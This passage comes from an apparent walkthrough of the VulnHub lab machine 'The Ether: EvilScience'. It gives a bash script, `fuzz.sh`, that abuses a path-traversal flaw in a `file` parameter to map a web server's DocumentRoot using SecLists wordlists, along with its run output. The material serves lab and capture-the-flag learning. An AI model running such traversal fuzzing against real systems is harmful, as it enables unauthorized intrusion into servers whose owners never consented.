 To that end, I wrote `fuzz.sh`, a `bash` script to map out the **DocumentRoot** by exploiting the `file` parameter, and fuzzing with the wordlists from [SecLists][5]. For this to work, a unique known string in the file must exists.

<div class="filename"><span>fuzz.sh</span></div>
```bash
#!/bin/bash

HOST=192.168.198.130
PATTERN="$1"
KNOWN="$2"
WORDLIST="$3"

for word in $(cat "$WORDLIST"); do
    echo "[+] Trying ${PATTERN/FUZZ/$word}"
    if curl -s http://${HOST}/?file=${PATTERN/FUZZ/$word} \
       | grep -E "$KNOWN" &>/dev/null; then
        printf "\n"
        echo "[!] Found: http://${HOST}/?file=${PATTERN/FUZZ/$word}"
        break;
    fi
done
```

Now, let's give `fuzz.sh` a shot.

```
# ./fuzz.sh "../FUZZ/about.php" "About The Ether" /usr/share/seclists/Discovery/Web_Content/common.txt
...
[+] Trying ../pub/about.php
[+] Trying ../public/about.php
[+] Trying ../public_ftp/about.php
[+] Trying ../public_html/about.php

[!] Found: http://192.168.198.130/?file=../public_html/about.php
```

OK. The script is working—`/?file=../public_html/about.php` gives me the confidence.

![fuzz.sh](/assets/images/posts/the-ether-evilscience-walkthrough/evilscience-4.png)

[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://securityshards.wordpress.com/
[3]: https://www.vulnhub.com/
[4]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[5]: https://github.com/danielmiessler/SecLists
